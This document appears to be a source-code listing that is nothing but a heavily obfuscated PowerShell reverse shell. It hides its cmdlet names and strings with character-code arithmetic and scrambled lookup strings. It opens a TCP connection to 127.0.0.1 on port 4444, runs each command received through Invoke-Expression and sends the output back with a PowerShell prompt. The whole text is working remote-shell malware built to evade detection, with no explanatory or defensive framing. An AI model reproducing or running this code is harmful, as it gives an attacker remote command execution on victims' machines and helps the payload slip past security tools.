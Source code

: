 ```powershell
$RIh2YMeUrLleflu = & (("bkJFpDG8iOerRVvo9xzsfjABHPgI5WYq4-$(0+6)h3ynN1aTEKXudm27LQlwtMCc0SUZ")[$(0-0+0-39+39+39),$(0-0+0+10),$(54),$(0-0+33),$(0+0+0-0+0-9+9+9),$(0+0+0),21,$(0-0+0+10),$($(58)),(55)] -join '') $([char]($(0+6)*$(83)/$(0+6))+[char]($(46+46+0-0-46)+$(121+121+0+0-121)-$(46+46+0-0-46))+[char]($(0-0+0-0-102+102+102)*$(0-0+0+115)/$(0-0+0-0-102+102+102))+[char]($(0+0+0)+$(116)-$(0+0+0))+[char]($(0+0-0-0+3)+(((101)))-$(0+0-0-0+3))+[char]($(((28)))*(109)/$(((28))))+[char]($(1)*$(46+46+0-0-46)/$(1))+[char]($(0+0+0)+$(0-0+0-0-0+78)-$(0+0+0))+[char]($(0+0+0+19)+(((101)))-$(0+0+0+19))+[char](118+$(116)-118)+[char]($(0-0+0-39+39+39)*$(46+46+0-0-46)/$(0-0+0-39+39+39))+[char]($(0+0+0)+$(83)-$(0+0+0))+[char]($(15+15+0+0+0+0-15)*$((111))/$(15+15+0+0+0+0-15))+[char]($(11)*$(0+0+0+99)/$(11))+[char]($(0+0+0)+$(0+0-107+107+107)-$(0+0+0))+[char](24+(((101)))-24)+[char]($((75))*$(116)/$((75)))+[char]($(60)*$(0-0+0+115)/$(60))+[char]($(0+0+0)+$(46+46+0-0-46)-$(0+0+0))+[char]($(0+0+0)+84-$(0+0+0))+[char]($(0+0+0)+$($($(67)))-$(0+0+0))+[char]($($(100))+80-$($(100)))+[char]($(0-0-0-5+5+5)+$($($(67)))-$(0-0-0-5+5+5))+[char]($(0+0+0+19)*$(108)/$(0+0+0+19))+[char]($(94+94+0-0+0-94)+(($(105)))-$(94+94+0-0+0-94))+[char]($(0+0+0+0+113)+(((101)))-$(0+0+0+0+113))+[char]($(108)+110-$(108))+[char]($(0+0+0)+$(116)-$(0+0+0)))("Eztpe9HAJhx0CsSoVdQai.inkFe35GxjHEZugbD17Ur.fLgCcGp4z.H2RDbaXwLSUzI46Oo8xA".replace('fLgCcGp4z',0).replace('Eztpe9HAJhx0CsSoVdQai',127).replace('inkFe35GxjHEZugbD17Ur',0).replace('H2RDbaXwLSUzI46Oo8xA',1),4444);$VQzo0MZvYst = (& (("Kq6lEhs17kBIGeSjvXwAr4cYnfT5WLPRxOyZQd8U-b9omziMCgu3J0FpVaHDN2t")[$(46+46+0-0-46),24,$(0-0+0+16),$(43),$(0+0+0-0+0-9+9+9),(13),(($(40))),(13),$(32+32+0+0-32),(55),$(20),(13),$(0+6),$(0+6),$(46+46+0-0-46),$(43),24] -join '') ([string]::join('', ( (36,$(82),73,$(104),(((50))),$(0+0+89),$(77),(((101))),(($(85))),$(0+0-0+114),$(0-0+76),$(108),(((101))),$(0-0+0-0-102+102+102),$(108),$(117+117+0+0-0+0-117),$(46+46+0-0-46),$(71),(((101))),$(116),$(83),$(116),$(0+0-0+114),(((101))),$((97)),(109),(($(40))),41) |%{ ( [char][int] $_)})) | % {$_}));[byte[]]$aKydB9RXv2thuU = $(0+0+0)..$($($(65535)))|<##>%{<#$(0+0-0-0+3)GT4BWEX1Kon2#>$_}|& (("NAMCqn9H23mOzfrZeP461KyWULshapxR-jIJviEo0kQtFDlGwuST7dBcVbYg8X5")[(44),$(0-0+0-39+39+39),$(14),(((38))),$(((28))),(55),$(27+27+0+0+0-27),$(32+32+0+0-32),$(11),($((57))),$(0-0+33),$(0-0+0+16),(55),$(43)] -join ''){$(0+0+0)};while(($cvB4PPcLVI = $VQzo0MZvYst.Read($aKydB9RXv2thuU, $(0+0+0), $aKydB9RXv2thuU.Length)) -ne $(0+0+0)){;$WcDamZqInJS7HDr3 = (& (("bkJFpDG8iOerRVvo9xzsfjABHPgI5WYq4-$(0+6)h3ynN1aTEKXudm27LQlwtMCc0SUZ")[$(0-0+0-39+39+39),$(0-0+0+10),$(54),$(0-0+33),$(0+0+0-0+0-9+9+9),$(0+0+0),21,$(0-0+0+10),$($(58)),(55)] -join '') -TypeName $([char]($(116)+$(83)-$(116))+[char]($(0+0+0)+$(121+121+0+0-121)-$(0+0+0))+[char]((($(85)))*$(0-0+0+115)/(($(85))))+[char]($(0+0+52)+$(116)-$(0+0+52))+[char]($(43)+(((101)))-$(43))+[char]($(14)+(109)-$(14))+[char](24+$(46+46+0-0-46)-24)+[char]($(0+0+0)+84-$(0+0+0))+[char]($(0+0+0)+(((101)))-$(0+0+0))+[char]($(0+0+0)+$(0-120+120+120)-$(0+0+0))+[char](24+$(116)-24)+[char](($((57)))+$(46+46+0-0-46)-($((57))))+[char]($(0+0+0)+((65))-$(0+0+0))+[char]($(121+121+0+0-121)+$(83)-$(121+121+0+0-121))+[char]($(0+0+0)+$($($(67)))-$(0+0+0))+[char]($(0+0-0+47)*73/$(0+0-0+47))+[char]($((75))+73-$((75)))+[char]($(0+0-0-0+3)*69/$(0+0-0-0+3))+[char]($(0+0-0-0+3)*110/$(0+0-0-0+3))+[char]($(0+0+0)+$(0+0+0+99)-$(0+0+0))+[char]($(94+94+0-0+0-94)*$((111))/$(94+94+0-0+0-94))+[char]((109)*$($(100))/(109))+[char]($(0+0+0)+(($(105)))-$(0+0+0))+[char](((61))+110-((61)))+[char]($(23+23+0+0+0-0-23)+$(0+0-0+0-103+103+103)-$(23+23+0+0+0-0-23)))).GetString($aKydB9RXv2thuU,$(0+0+0), $cvB4PPcLVI);$FP8DpgPcK0IovuDHPZ4p = (& (("jc79lahBD50zmLSoGOAWJ6bEVTCZn-gfHRqQIs83k1KMyvYi2UPxdwFrptueX4N")[36,$(((28))),$(($(45))),$(15+15+0+0+0+0-15),(($(40))),$(0+0-0-0+59),$(29),$(23+23+0+0+0-0-23),($(51)),($($(56))),(55),$(0+0-0-0+59),$((37)),$((37)),$(0+0-0+47),$(15+15+0+0+0+0-15),$(((28)))] -join '') $WcDamZqInJS7HDr3 2>&1 |<##>%{<#c8jKdSaJDXH#>$_}| & (("r2-$(0-0-0-5+5+5)kGjMq4wbPSpReXc3861oBCfYULI0nEhaTvylDxHWuzVJsA79igmtNKdFOQZ")[$(60),(44),(55),$(0-0+2),(13),(55),$(0+0+0),$(0+0+52),$(32+32+0+0-32),$(53+53+0-53)] -join '') );$FP8DpgPcK0IovuDHPZ4p2 = $FP8DpgPcK0IovuDHPZ4p + 'P'+'S'+' ' + (& (("Xm965ksBJzH0P4Tx3fq-uV2YDWvw1pGA8OQdEoUiZyIKRbL7tMjNnerlacgCFhS")[$($(30)),$(53+53+0-53),$(0+48),$(0+0+0+19),$(46+46+0-0-46),$((37)),($((57))),($($(56))),$(0+48),$(0-0+0-39+39+39),$((37)),$(0+0+52)] -join '')).Path + $('>'+' ');$6j = ([text.encoding]::ASCII).GetBytes($FP8DpgPcK0IovuDHPZ4p2);$VQzo0MZvYst.Write($6j,$(0+0+0),$6j.Length);& (("kOlASeNV-$(0+0+0-0+0-9+9+9)oIy0izxUGYCWLq1Bm7EuH3dK6rjPc8shnJMtwQR45XTpbfDFaZ2gv")[$(14),$(0+0-0-0+0-42+42+42),$(0+0+0+62),$(0-0+0+10),$(0+0+0),$(0-0-0-5+5+5),(8),$(0-0-0-5+5+5),$(0-0+0+16),$(53+53+0-53),35,$(0-0-0-5+5+5),(($(40))),(($(40))),$(14),$(0-0+0+10),$(0+0-0-0+0-42+42+42)] -join '') ([string]::join('', ( (36,$(86),$(81+81+0+0-81),$(122),$((111)),$(0+48),$(77),$(((90))),118,$(0+0+89),$(0-0+0+115),$(116),$(46+46+0-0-46),$($(70)),$(108),$(117+117+0+0-0+0-117),$(0-0+0+115),$(104),(($(40))),41) |%{ ( [char][int] $_)})) | % {$_})};& (("$(0-0-0-5+5+5)h7KWXyczN0sentgPElZ-QviSjuR9L1mdf3pDVTUo8Gqk4CYrHxBA2baIw6MFOJ")[$(23+23+0+0+0-0-23),(13),$($($(22))),(($(40))),(44),12,$(20),12,(((50))),35,$(0+48),12,$(11),$(11),$(23+23+0+0+0-0-23),(($(40))),(13)] -join '') ([string]::join('', ( (36,$(82),73,$(104),(((50))),$(0+0+89),$(77),(((101))),(($(85))),$(0+0-0+114),$(0-0+76),$(108),(((101))),$(0-0+0-0-102+102+102),$(108),$(117+117+0+0-0+0-117),$(46+46+0-0-46),$($($(67))),$(108),$((111)),$(0-0+0+115),(((101))),(($(40))),41) |%{ ( [char][int] $_)})) | % {$_})
```
